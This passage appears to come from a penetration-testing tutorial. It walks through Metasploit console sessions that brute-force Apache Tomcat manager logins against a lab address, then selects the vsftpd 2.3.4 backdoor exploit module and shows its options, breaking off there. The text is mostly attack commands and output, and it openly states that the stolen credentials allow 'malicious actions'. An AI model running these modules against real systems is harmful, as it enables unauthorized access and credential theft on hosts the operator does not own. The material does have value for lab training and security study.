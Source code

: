 ```
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
msf5 auxiliary(scanner/http/tomcat_mgr_login) > 
```
Using 'show option' command we can see required options to set.

```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rhost 10.10.10.150
rhost => 10.10.10.150
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8180
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run
```

This will run and give us desired result.

After getting credentials you can login apache tomcat manager and will be able to perform malicious actions.

We can also use previos techniques.

**Exploit FTP v2.3.4 server using metasplolit**

~~~
> search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
~~~
Use exploit

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
